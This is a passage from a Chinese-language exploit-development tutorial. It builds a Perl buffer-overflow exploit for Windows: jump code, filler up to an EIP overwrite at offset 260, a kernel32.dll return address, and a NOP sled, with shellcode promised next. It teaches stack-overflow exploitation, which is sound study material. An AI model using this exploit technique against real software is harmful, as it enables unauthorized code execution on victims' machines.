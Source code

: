 ![](../Images/WED/4.11.png)

我们确切地落在了我们预期的地方。现在我们可以让NOP缓冲区变得更小，并且更接近EIP，但由于我们有空间可以玩，所以没有理由如此精确。让我们再次更新我们的漏洞利用脚本，用实际的NOP替换INT并插入一些shell代码（calc.exe）。

    #!/usr/bin/perl
     
    my $buffsize = 10000; # set consistent buffer size
     
    my $jmp = "\x83\xc3\x64" x 3; # add 300 to ebx which will jump beyond eip overwrite and into nops/shellcode
    $jmp = $jmp . "\xff\xe3"; # jmp ebx
    my $junk = "\x41" x (260 - length($jmp)); # fill remainder of start of buffer to eip overwrite at offset 260
    my $eip = pack('V',0x7c810395); # call ebx [kernel32.dll] which points to start of buffer and our jump code
    # no usable application module found
    my $nops = "\xcc" x 50;
     